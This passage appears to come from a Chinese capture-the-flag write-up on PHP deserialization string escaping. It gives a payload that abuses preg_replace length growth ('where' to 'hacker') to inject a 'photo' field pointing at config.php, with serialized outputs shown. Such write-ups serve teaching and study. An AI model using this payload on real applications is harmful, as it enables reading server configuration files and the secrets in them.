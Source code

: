 所以要将 `";}s:5:"photo";s:10:"config.php";}` (34个长度)添加到name后面

payload：

```
<?php

$profile['phone'] = '13588888888';
$profile['email'] = '123123123@qq.com';
$profile['nickname'][] = 'name";}s:5:"photo";s:10:"config.php";}';
$profile['photo'] = '123';

echo serialize($profile);
?>
```

输出：
>a:4:{s:5:"phone";s:11:"13588888888";s:5:"email";s:16:"123123123@qq.com";s:8:"nickname";a:1:{i:0;s:38:"name";}s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:3:"123";}

这里要是直接反序列化肯定不对，因为在这里：`s:38:“name”` ，你明明告诉我这里有38个长度，你怎么就给我4个长度呀，所以就会继续把构造的payload接着收集，直到38个长度：

```
Array
(
    [phone] => 13588888888
    [email] => 123123123@qq.com
    [nickname] => Array
        (
            [0] => name";}s:5:"photo";s:10:"config.php";}
        )

    [photo] => 123
)
```

那怎么多出来34个长度？

利用 `preg_replace`，将where传入后被替换为hacker，每一个where都会多出一个长度，所以 `34个where+payload经过替换后，payload就会生效`

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021050302151655.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

或者可以手动在序列化字符串后加34个长度？(不知道行不行，但是这道题不行)
>a:4:{s:5:"phone";s:11:"13588888888";s:5:"email";s:16:"123123123@qq.com";s:8:"nickname";a:1:{i:0;s:38:"name1111111111111111111111111111111111";}s:5:"photo";s:10:"config.php";}";}s:5:"photo";s:3:"123";}

输出：
```
Array
(
    [phone] => 13588888888
    [email] => 123123123@qq.com
    [nickname] => Array
        (
            [0] => name1111111111111111111111111111111111
        )

    [photo] => config.php
)
```
